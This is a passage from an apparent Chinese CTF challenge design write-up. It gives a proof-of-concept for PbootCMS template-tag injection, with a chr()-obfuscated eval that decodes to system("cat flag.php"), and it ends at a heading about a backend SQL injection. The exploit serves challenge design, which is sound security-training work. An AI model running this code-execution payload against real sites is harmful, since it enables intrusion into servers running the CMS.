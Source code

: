 <img src="img/flag2_php_212.jpg" alt="flag2_php_212" style="zoom:50%;" />

因此利用这一漏洞设计 Flag，编写  POC 如下：

[ascii码对照表](https://wenku.baidu.com/view/de4c332c453610661ed9f474.html) 和 [进制转换器](https://jisuan5.com/hexadecimal/?hex=10)

```shell
{pbootpbootpboot:if:if:if((eval ( chr (0x73).chr (0x79).chr (0x73).chr (0x74).chr (0x65).chr (0x6d).chr (0x28).chr (0x22).chr (0x63).chr (0x61).chr (0x74).chr (0x20).chr (0x66).chr (0x6c).chr (0x61).chr (0x67).chr (0x2e).chr (0x70).chr (0x68).chr (0x70).chr (0x22).chr (0x29).chr (0x3b))))}!!!{/pbootpbootpboot:if:if:if}
```

**提供给解题人的线索为:pbootpbootpboot:if:if:if**

##### 1.3 漏洞三 —— 后台 sql 注入
